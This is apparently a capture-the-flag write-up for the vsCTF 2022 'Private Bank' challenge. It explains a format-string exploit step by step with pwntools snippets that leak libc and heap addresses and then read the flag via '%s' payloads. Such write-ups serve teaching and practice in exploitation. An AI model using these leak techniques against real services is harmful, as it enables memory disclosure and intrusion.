








# vsCTF 2022 - Private Bank

The zip [privatebank.zip](privatebank.zip) is the file published to player and [privatebank_docker.zip](privatebank_docker.zip) is the docker & solution & source code for this challenge.

### Difficulty: Easy

### Exploit

First, let's get the address of system and calculate the libc base address:

```python
p.recvuntil(b'Hint: ')
system_addr = int(p.recvline()[:-1], 16)
libc.address = system_addr - libc.sym['system']
log.info(hex(libc.address))
```

For this challenge, we need to get the address of heap to read the flag with format string `%s`. When debuging with gdb-gef, we can get the static address of heap with command `vmmap`:



And use command `search-pattern` of gdb-gef (or `search` of pwndbg) to search for address of heap in libc or stack. First search for `0x55555555c0`:



There is one address of libc contains address start with `0x55555555c0`. The offset can be calculated as:

```python
>>> 0x7ffff7fb0388 - 0x007ffff7d98000
0x218388
```

Let's try to leak that address out:

```python
payload = b'1%7$s' + p64(libc.address + 0x218388)
p.sendafter(b'Cabinet number: ', payload)

p.recvuntil(b'number: 1')
leak_stack_addr = u64(p.recv(6) + b'\x00\x00')
log.success("Leak heap: " + hex(leak_stack_addr))
```



Hm that's not heap address. Let's search for another libc or stack address. Second search of `0x55555555c1` gives no result:



Third search with `0x55555555c2`:



There are some heap address on stack. However, because we can only leak 2 times so leaking stack will be impossible. Keep searching and when we search pattern with `0x55555555c5`, there is some address in libc:



The offset for this address is:

```python
>>> 0x7ffff7fb0cc0 - 0x007ffff7d98000
0x218cc0
```

Let's try to leak that with the code above:



Nice, that's the heap address. Let's calculate the offset for that heap with address of flag (use the static address when debug with gdb-gef):



So offset is `0x2e0`. Let's get flag:

```python
heap_flag = leak_heap - 0x2e0
log.success("Heap contains flag: " + hex(heap_flag))
payload = b'%9$s1234'
payload += p64(heap_flag)
p.sendafter(b'Key: ', payload)
```

That's all for this challenge. Thanks for playing!